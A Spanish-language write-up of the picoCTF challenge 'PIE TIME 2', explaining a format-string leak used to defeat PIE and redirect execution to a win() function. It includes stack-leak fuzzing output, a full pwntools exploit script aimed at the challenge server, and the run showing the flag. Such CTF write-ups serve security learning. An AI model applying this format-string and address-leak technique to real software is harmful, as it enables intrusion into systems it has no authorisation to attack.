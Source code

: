 En este ejercicio nos ofrecen un binario y su código en C.

```c
./vuln        
Enter your name:%p
0xa70
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

El programa nos deja introducir un input y luego nos pide una dirección a la que saltar.

El binario tiene una vulnerabilidad de format string:

```c
printf("Enter your name:");
fgets(buffer, 64, stdin);
printf(buffer);
```

El programa tiene una función de victoria `win`:

```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}
```

Parece sencillo, simplemente hay que poner la dirección de la función `win` para resolver el reto. Pero hay un problema, el binario tiene `PIE` activado:

```c
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Tenemos que descubrir primero cual es la dirección base del binario. Para esto podemos intentar leakear gracias al format string la dirección a una instrucción del programa.

Para esto podemos con un fuzzer sacar direcciones del stack y intentar encontrar una que sirva. Para no probar todo lo que aparece, las direcciones que interesan suelen empezar por 555 o estar cerca.

```c
. . .
1: b'AAAAAAA0x3125414141414141\n'  // Parametro controlable
. . .
4: b'AAAAAAA0x5555555592ac\n' // Interesante
. . .
19: b'AAAAAAA0x555555555441\n' // Intereante
. . .
```

```c
pwndbg> info symbol 0x555555555441
main + 65 in section .text of /home/ub1cu0/Desktop/picoCTF/pie_time_2/vuln_patched
```

Esta sirve! Vamos a calcular un offset para que pwntools pueda saber donde está la base del binario:

```c
pwndbg> piebase
Calculated VA from /home/ub1cu0/Desktop/picoCTF/pie_time_2/vuln_patched = 0x555555554000

offset = 0x555555555441 - 0x555555554000 = 0x1441
```

Ahora ya podemos hacer el script:

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF('./vuln_patched')
context.binary = exe

LEAK_OFFSET = 0x1441

def conn():
    if args.LOCAL:
        return process([exe.path])
    return remote('rescued-float.picoctf.net', 65508)

def main():
    r = conn()

    format = b'%p ' * 19
    r.sendlineafter(b'Enter your name:', format)

    leak_line = r.recvline().decode().strip()
    leak      = leak_line.split()[18]
    log.info(f'Leak: {leak}')

    pie_base = int(leak, 16) - LEAK_OFFSET
    exe.address = pie_base
    win = exe.symbols.win
    log.info(f'PIE base: {hex(pie_base)}')
    log.info(f'win() addr: {hex(win)}')

    r.sendline(hex(win).encode())

    r.interactive()

if __name__ == '__main__':
    main()
```

```c
   ~/Desktop/picoCTF/pie_time_2 ❯ python3 solve.py      
[*] '/home/ub1cu0/Desktop/picoCTF/pie_time_2/vuln_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to rescued-float.picoctf.net on port 59789: Done
[*] Leak: 0x5910d83d6441
[*] PIE base: 0x5910d83d5000
[*] win() addr: 0x5910d83d636a
[*] Switching to interactive mode
 enter the address to jump to, ex => 0x12345: You won!
picoCTF{SECRETO}
```

Tenemos la flag!
